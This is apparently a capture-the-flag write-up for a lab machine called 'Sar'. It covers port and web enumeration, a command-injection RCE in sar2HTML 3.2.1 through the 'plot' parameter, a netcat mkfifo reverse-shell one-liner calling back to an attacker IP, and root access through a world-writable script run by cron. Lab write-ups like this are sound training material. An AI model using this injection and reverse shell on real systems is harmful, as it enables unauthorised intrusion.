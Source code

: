 
## Sar

### Enumeration

Machine IP &rarr; `192.168.147.35`

#### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.147.35`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

#### Table

| **Port** | **Service** | **Other details (if any)**                                   |
| -------- | ----------- | ------------------------------------------------------------ |
| 22       | SSH         | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.4.29 ((Ubuntu))                               |

#### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.147.35 -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php,txt`

Directories/files listed &rarr;

- index.html
- robots.txt
- phpinfo.php

Robots txt reveals a directory `sar2HTML`, which has an index.php page. The version for the sar2HTML is 3.2.1.

### Exploitation

Google-fu reveals the existence of an RCE exploit for the sar2HTML version 3.2.1. For this exploit, `/sar2HTML/index.php?plot=;whoami` executes the command. The result can be seen on the webpage. Therefore, this was used to enumerate presence of bash, python and netcat. The `/etc/passwd` file was also printed which revealed the 2 users of importance to be `root` and `love`.

Thus, a reverse shell can be spawned using bash payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.147 3002 >/tmp/f` for the user `www-data`.

The user flag was in the `/home/` directory.

### Privilege Escalation

Looking at setuid binaries, the most interesting ones are `arping` and `ping`. Looking at the crontab, there is a process that runs every 5 mins as the root user &rarr; `cd /var/www/html/ && sudo ./finally.sh`. Checking the code of the file, it seems that it runs another file called `write.sh`, which is world writable.

Therefore, using a reverse shell payload to get connection from the machine would execute it as root, thereby, giving a root shell.
